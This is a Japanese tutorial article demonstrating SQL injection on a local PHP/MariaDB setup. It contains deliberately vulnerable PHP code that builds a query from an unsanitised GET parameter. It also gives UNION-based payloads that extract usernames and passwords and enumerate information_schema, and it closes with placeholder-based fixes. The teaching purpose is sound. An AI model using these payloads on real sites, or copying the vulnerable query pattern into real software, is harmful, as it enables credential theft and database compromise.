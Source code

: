 ```yaml
---
title: "SQLインジェクション脆弱性をPHPで試す"
emoji: "📝"
type: "tech"
topics: ["php", "sql", "脆弱性", "sqlインジェクション", "webアプリケーション"]
published: true
---
```


# はじめに
エンジニアの皆様、脆弱性を正しく対策をしながらWEBアプリケーションを開発してますでしょうか？ 作成したコードに「SQLインジェクション脆弱性」が含まれていると「データベースが外部に盗まれる」「データベースの内容を書き換えられる」「データベースを破壊される」「データベースを経由してプログラムの実行」などが行われます。「SQLインジェクション脆弱性」は、他の脆弱性と比べて「情報漏洩」に直結する悪用されると被害の大きい脆弱性となります。

今回は、この「SQLインジェクション脆弱性」をPHPのコードを使用して試したいと思います。
※コードを試す際はデータベースも必要となります。
# 本記事の確認する環境について
本記事の確認は 下記をローカルに作成して行いました。
- Windows10/WSL2（Ubuntu 20.04.2 LTS)
- Apache 2.4.41
- PHP 7.4.3
- MariaDB 10.3.25

> WSL2のLAMP環境の作り方は、下記の記事を参照いただけたらと思います。

https://zenn.dev/o2z/articles/f68d7aea7c075f
# SQLインジェクション脆弱性とは？
SQLインジェクション脆弱性は「SQLを呼び出している箇所」に発生する脆弱性です。プログラム上のデータアクセスに不備があり意図しないSQLが実行される事により、攻撃者がデータベースにアクセスを行う事が可能となります。

コード作成の際に人為的ミスで発生する脆弱性でもありますが、フレームワークを利用している場合は、フレームワーク側に脆弱性が潜んでいる場合もありますので利用しているフレームワークにバージョンアップが公開されたら、なるべく早いタイミングで適用をすると共にフレームワークは正しく理解して利用する事を推奨します。
# 脆弱性を試すPHPコード
データベースは接続ユーザーが作られているモノとして 下記のデータが入っている状態を想定しています。

login_user テーブル
|id|name|passwd|flg|
|----|----|----|----|
|1|Aさん|password1|1|
|2|Bさん|password2|0|
|3|Cさん|password3|0|

menu テーブル
|id|menu_name|page|flg|
|----|----|----|----|
|1|ショップ|shop|0|
|2|入庫|stock|0|
|3|出庫|move|0|
|4|管理|management|1|

※カラム名など設計が悪いと思いますがサンプルのためご容赦ください。
## SQLインジェクション脆弱性があるコード
```php
// SQL組み立て
$sql  = "";
if(isset($_GET['flg'])){
    $sql .= "SELECT id,menu_name,page FROM menu WHERE flg = ".$_GET['flg'].";";
}
// SQL実行
if ($sql != "") {
    try {
        $db = new PDO("mysql:host=localhost;dbname=$database", $user, $password);
        foreach($db->query($sql) as $rows) {
            $records[] = $rows;
        }
    } catch (PDOException $e) {
        echo "<div>Error:" . $e->getMessage() . "</div>";
        //die();
    }
}
// 表示
foreach($records as $recoed) {
    echo $recoed['menu_name'];
    echo "：";
    echo $recoed['page'];
    echo "\n";
}
?>
```
> $_GET['flg'] をそのまま利用しSQLを組み立てています。

![](https://storage.googleapis.com/zenn-user-upload/cl7sn5utnafbaedxp077o7ucoaro)

## このコードにSQLインジェクションをしてみたいと思います。
```php
flg="2 UNION SELECT null,null,(select CONCAT(id,"$",name,"$",passwd) from login_user limit 0,1)";
```
実行されるSQLはこうなります。
```sql
SELECT id,menu_name,page 
  FROM menu WHERE flg = 2
 UNION SELECT null,null,(SELECT
              CONCAT(id,"$",name,"$",passwd)
         FROM login_user limit 0,1)
```
UNIONを利用してSQLをつなぎ、3カラム目にサブクエリでlogin_userテーブルにSQLを発行します。さらにCONCATでセパレート文字に「$」を挟みながら結合してレコードを抜き出しています。
![](https://storage.googleapis.com/zenn-user-upload/w8axdggcvji7qosn38cq8w7r2do1)

## 「INFORMATION_SCHEMA」に注意する
SQLインジェクション脆弱性があったとしても、これはだけでは「データベース名」や「テーブル名」や「カラム名」が分からないので大丈夫。と考えるかもしれませんが Mysql(MariaDB) は「INFORMATION_SCHEMA」を確認する事でデータベースの構造を知る事が可能です。
※「SHOW tables」でもテーブル名の一覧は取得可能です。

さきほどのSQLインジェクションのコードを「INFORMATION_SCHEMA」を確認するように修正してみます。
```sql
SELECT id,menu_name,page
  FROM menu WHERE flg = 2
 UNION SELECT null,null,(SELECT 
              CONCAT(table_schema,"$",table_name,"$",engine)
	 FROM information_schema.tables limit 0,1)
```
**参考**
[MYSQLリファレンス：INFORMATION_SCHEMA](https://dev.mysql.com/doc/translation-refman/8.0/ja/information-schema.html)
# 対策について
SQLを組み立てる際に GET（POST）のパラメータをそのままSQL文に渡している箇所があるとSQLインジェクションを引き起こす可能性が高まり危険なコードとなります。入力値のバリデーションを強化すると共にSQLに渡される前に文字列をエスケープする必要があります。
SQLを投げている箇所は全てPDO（プレースホルダ）を利用した形に置き換えるか、SQLインジェクションに対応しているフレームワークを利用する事で、SQLインジェクションをが紛れ込まないようにする対策が必要となります。
# まとめ
SQLインジェクション脆弱性によりデータベースは壊滅的なダメージを受けます。
「プログラムは思った通りに動けば良い」「外部に公開していない社内システムだから脆弱性があっても問題ない」などは非常に安易で危険な考えと思います。
データベースが漏洩すればサイトやシステムだけではなく会社全体の信用が揺らぐ事になります。そして、信用を取り戻すためにかかる費用は開発を大きく上回る事でしょう。
SQLインジェクション脆弱性を人為的なミスにより引き起こさないために個人ではなく、組織として脆弱性に目を向ける事からスタートしていく事が良いのではないかと感じます。

以上、PHPで試す「SQLインジェクション」脆弱性でした。いかがでしたでしょうか。脆弱性は正しく理解して対策していきたいと思います。



